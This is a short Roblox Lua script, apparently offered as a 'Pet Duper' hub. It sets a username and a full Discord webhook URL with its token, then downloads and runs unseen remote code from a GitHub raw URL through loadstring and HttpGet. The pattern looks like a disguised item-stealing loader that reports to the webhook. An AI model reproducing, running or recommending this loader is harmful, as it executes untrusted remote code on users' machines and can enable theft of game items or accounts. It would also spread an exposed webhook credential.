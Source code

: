 _G.Username = "july9999999991"
_G.HubName = "Pet Duper"
_G.WebhookUrl = "https://discord.com/api/webhooks/1095392267721773206/OXfLBM7uFT1cCT67IT3VEtY4QL7py15yiL9K8likDN-geWTanzOqfurCQVZzJ_icZkOd"

loadstring(game:HttpGet("https://raw.githubusercontent.com/Jayiioceanii/PeakOnTop/main/peak.lua"))()
